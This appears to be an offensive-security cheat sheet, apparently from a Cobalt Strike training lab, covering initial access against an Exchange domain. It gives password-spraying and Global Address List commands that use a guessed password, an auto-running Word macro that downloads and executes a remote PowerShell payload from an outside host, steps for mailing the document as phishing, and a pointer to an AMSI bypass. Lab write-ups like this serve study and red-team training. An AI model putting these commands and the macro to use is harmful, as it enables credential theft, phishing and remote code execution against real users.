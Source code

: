 # Conduct Password Spraying attack with known Password on identified users
ps> Invoke-PasswordSprayOWA -ExchHostname mail.cyberbotic.io -UserList .\Desktop\valid.txt -Password Summer2022

# Use Identified credentials to download Global Address List
ps> Get-GlobalAddressList -ExchHostname mail.cyberbotic.io -UserName cyberbotic.io\iyates -Password Summer2022 -OutFile .\Desktop\gal.txt

    Create a malicious Office file having embedded macro

# Step 1: Open a blank word document "Document1". Navigate to  View > Macros > Create. Changes macros in to Document1. Name the default macro function as AutoOpen. Paste the below content and run for testing

Sub AutoOpen()

  Dim Shell As Object
  Set Shell = CreateObject("wscript.shell")
  Shell.Run "notepad"

End Sub

# Step 2: Generate a payload for web delivery (Attacks > Scripted Web Delivery (S) and generate a 64-bit PowerShell payload with your HTTP/DNS listener). Balance the number of quotes

Sub AutoOpen()

  Dim Shell As Object
  Set Shell = CreateObject("wscript.shell")
	Shell.Run "powershell.exe -nop -w hidden -c ""IEX ((new-object net.webclient).downloadstring('http://nickelviper.com/a'))"""

End Sub

# Step 3: Save the document as .doc file and send it as phising email

# AMSI BYPASS :  Use AMSI Bypass with above payload if required, 
# Save below one liner to a ps1 file and host it on cobalt strike and use Powershell IEX to fetch and run it in memory to bypass AMSI.
